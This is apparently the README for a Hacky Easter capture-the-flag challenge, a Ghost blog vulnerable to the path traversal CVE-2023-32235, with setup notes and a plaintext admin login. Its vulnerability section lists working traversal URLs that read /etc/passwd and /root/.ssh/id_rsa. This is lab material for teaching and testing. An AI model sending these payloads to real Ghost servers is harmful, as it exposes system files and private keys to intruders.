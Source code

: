 # solution

- http://ch.hackyeaster.com:2472/assets/built%2F..%2F..%2F/egg.png
- See https://github.com/VEEXH/Ghost-Path-Traversal-CVE-2023-32235- 


# setup

- To test it locally, you need to setup hackyeaster.com to point to localhost by editing /etc/hosts.
- On first run you will encounter a few db error from blog_1 until database mysql_1 is ready.
- PS: One can register to the blog as user (I setup mail functionality), but it's a rabbit hole.

# Notes 

## Admin

Admin under http://ch.hackyeaster.com:2407/ghost

User: `ghostbusters@octopoden.com`
PW: `!Q2&)Rui@s@HFwx`

## Vulnerability

CVE-2023-32235 

< 5.42.1

http://localhost:2368/assets/built%2F..%2F..%2F/package.json
http://localhost:2368/assets/built%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
http://localhost:2368/assets/built%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

http://localhost:2368/public/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/root/.ssh/id_rsa
http://localhost:2368/public/%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

/var/lib/ghost/versions/5.42.0/content/y§themes/casper

casper -> /var/lib/ghost/current/content/themes/casper


Admin: http://localhost:2368/ghost/#/dashboard